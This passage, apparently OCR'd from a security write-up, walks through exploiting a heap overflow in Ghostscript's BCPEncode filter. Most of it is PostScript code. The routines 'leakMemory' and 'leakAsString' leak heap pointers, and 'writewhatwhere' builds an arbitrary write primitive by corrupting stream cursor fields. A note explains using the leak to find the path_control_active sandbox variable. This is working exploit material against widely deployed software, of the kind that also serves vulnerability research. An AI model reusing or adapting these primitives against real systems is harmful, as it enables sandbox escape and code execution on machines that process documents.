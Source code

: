 % (leak) -> leak as hexadecimal string 
/leakAsString{
    /myString 16 string def
    /asciiToHexFilter myString /ASCIIHexEncode filter def
    asciiToHexFilter exch writestring
    asciiToHexFilter flushfile
    myString
}def 

% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
    /leakBuffer 5000 string def
    /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr
    leakMemoryFilter exch writestring
    leakMemoryFilter flushfile
    /leak leakBuffer 2176 8 getinterval def
    leak
    reverse
} def

6

From this leak, it is possible to calculate the address of path_control_active variable. The offset between the leak and the path_control_active variable changes with the various options passed as arguments to Ghostscript but remains the same if the same arguments are passed.

In a similar way, arbitrary write can be achieved by overwriting the write cursor pointer by an arbitrary address:

% what where -> -
/writewhatwhere {
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr 
    exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
    <4444444444444444> concatstrings % s->cursor->w->limit
    <4545454545454545> concatstrings % s->cbuf.  
    /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
    openWriteFilter exch writestring
    openWriteFilter flushfile
    openWriteFilter exch writestring
}def
